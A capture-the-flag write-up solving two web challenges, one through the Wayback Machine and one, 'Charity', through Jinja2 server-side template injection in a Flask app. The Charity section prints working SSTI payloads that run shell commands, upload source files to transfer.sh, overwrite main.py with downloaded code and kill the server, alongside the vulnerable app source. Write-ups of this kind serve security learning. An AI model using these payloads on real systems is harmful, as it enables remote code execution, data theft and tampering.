

There were two question related to website analysis and exploitation.

---
## Back To Time

### Original Link
We were provided with the following link:
https://clickme.herocharge.repl.co/

### Approach
If you open the file, you will be greeted by a Click Me button that will always run away from you.


After that is you open DevTools, you will get access to the link that the hyperlink leads it to:
https://clickme.herocharge.repl.co/flag.html

Which shows the following message:
```
There used to be a flag here. only if i could travel back in time to see it. 
```


You only need to open the link in the wayback machine and there will be a snapshot of it which will have the flag.

https://web.archive.org/web/20220616185603/https://clickme.herocharge.repl.co/flag.html

The flag is:
```
CTF{waaaaaybaaaaackmaaaaachine} 
```

---
## Charity

### Link
This was the most challenging and interesting challenge of the CTF. But sadly I dont have access to the original link.
However we have managed to get hold of the files that were used in making the website, how to do it can be explained later.

### Approach
The home page looked like this:


After we created a team and logged in:


You cannot press the button that many number of times you will either crash the server which is hosted in Replit or get blocked by the Rate Limit checker.

We then tried creating a team with the same name and noticed that the progress got restarted every single time. Then we went to devtools and understood that there was a POST request being sent that increased the progress every single time we clicked the button to Donate. It did not have any payload that we could modify and therefore it turned out to be a dead end.

We then understood that we had to fiddle with the team name/password to try some sort of injection. From here we understood that is was a classic case of SSTI (`Server Side Template Injection`) in Jinja2/Flask.

We verified this by sending the below payload in the team name.
```
{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}
```

This returned the following webpage:


Now we tried a lot to fiddle with the stuff happening. We also understood that as there was no storage element in the entire website, the values stored were all while the code was running and would be reset if someone restarded the code. So we had to get our hands on the code.

Another thing we noticed is that `/` were not allowed in the team name because it would mess up with the paths due to nature of the post request. Instead we used the unicode format of the character `\u002f`

To get our hands on the main.py function we used the following command:
```
{{config.__class__.__init__.__globals__['os'].popen('curl --upload-file main.py https:\u002f\u002ftransfer.sh').read()}}
```
We got our hands on the main.py file


It had the following code:
```python
from flask import Flask, render_template, request, redirect, url_for, render_template_string
import time
from flask_limiter import Limiter
from flask_limiter.util import get_remote_address

app = Flask(__name__)
# app.config['LIMITER_REQUEST_LIMIT'] = 10  # Maximum number of requests allowed
# app.config['LIMITER_REQUEST_PERIOD'] = 60  # Time period (in seconds)
# app.config['LIMITER_KEY_FUNC'] = lambda: request.remote_addr  # Rate limiting based on user's IP
limiter = Limiter(app=app, key_func=lambda: request.remote_addr)
# Replace this with a more secure way of storing user data in a production app
teams = {}

@app.route('/')
def home():
  return render_template('home.html')


@app.route('/create_team', methods=['POST'])
def create_team():
  team_name = request.form.get('team_name')
  password = request.form.get('password')
  teams[team_name] = {'password': password, 'progress': 0}
  return redirect(url_for('team', team_name=team_name))


@app.route('/join_team', methods=['POST'])
def join_team():
  team_name = request.form.get('team_name')
  password = request.form.get('password')
  if team_name in teams and (teams[team_name]['password'] == password
                             or teams[team_name]['password'] == "1234"):
    return redirect(url_for('team', team_name=team_name))
  else:
    return "Invalid team name or password"


@app.route('/team/<team_name>', methods=['GET', 'POST'])
@limiter.limit("20 per minute")
def team(team_name):
  if request.method == 'POST':
    teams[team_name]['progress'] += 1
  return render_template_string('''
                        <!DOCTYPE html>
                        <html>
                        <head>
                            <title>Team Progress</title>
                            
                        </head>
                        <body>
                            <header>
                                <h1>Team Progress</h1>
                            </header>
                            <div class="content">
                              <div class="team">
                                  <h2>Welcome to Team {} '''.format(
      team_name) + '''</h2>
                                  <div class="progress">
                                      <p>Goal: 1200000000000000000 Progress:</p>
                                      <div class=\"progress-bar\" style="width: '''
                                + str(teams[team_name]['progress']) +
                                '''%;">''' +
                                str(teams[team_name]['progress']) + '''%</div>
                                  </div>
                                  <form action=\"/team/''' + team_name +
                                '''\" method="post">
                                      <input type="submit" value="Donate 1 Coin">
                                  </form>
                                <p>Make a post on insta with a screenshot of reaching the goal and tag the hacking club with and we will dm you the flag after verifying</p>
                              </div>
                            </div>
                        </body>
                        </html>
                        ''')
  return render_template('team.html',
                         team_name=team_name,
                         progress=teams[team_name]['progress'])


if __name__ == '__main__':
  app.run(debug=False, host="0.0.0.0", port=80)
```

So we knew that the only thing we had to do was to remove this main.py, replace it and then kill the server. So to do it we just wanted to try it out. However, to try it out we also needed the templates folder.

```
{{config.__class__.__init__.__globals__['os'].popen('tar -cf - templates | xz -9ze -T0 > templates.tar.xz').read()}}

```
Then we saw this:


Then we accessed the files using:
```
{{config.__class__.__init__.__globals__['os'].popen('curl --upload-file templates.tar.xz https:\u002f\u002ftransfer.sh').read()}}
```

Which gave us to access to the files:


This gave us access to the the files required to run the replit ourselves to test our changes. The code is still available at:
https://replit.com/@AdithyaKishor/ctf

All we had to do now was delete the main.py upload our malicious main.py and then kill the server. The thing you have to keep in mind is that replit restarts itself if we kill it this way and therefore, our plan should be able to succeed without failure.

We added the following code to our main.py:
```python
teams['winners'] = {'password':'12345678', 'progress': 1200000000000000000}
```

So that when we signed in, we already reached the goal required.

We uploaded the modified code to transfer.sh and then did the following:
```
{{config.__class__.__init__.__globals__['os'].popen('rm main.py && curl https:\u002f\u002ftransfer.sh\u002fqE5ITI3IEr\u002fmain.py -o main.py').read()}}
```

This command deletes the code in the replit and replaces it with ours. However, we are still not done. We have to make the server restart.

For that we had to find the process id of the entire process:
```
{{config.__class__.__init__.__globals__['os'].popen('ps a').read()}}
```


You can either use the process id or use a replit feature in which kill 1 kills the server.
Now to kill the file:
```
{{config.__class__.__init__.__globals__['os'].popen('kill 402').read()}}
```
Wait for quite a while and keep on refereshing the original website.
All you have to do now is to wait for the repl to restart.

The login using the credentials `winner` and `12345678`

We sent the screenshot and got this flag:


You can get the files for trying it out yourself here: https://replit.com/@AdithyaKishor/ctf

The flag is:
```
0xCTF{Ph0r_4_9R347_K4uZ3_900D_j08_0n_r34CH1N'_73h_904L}
```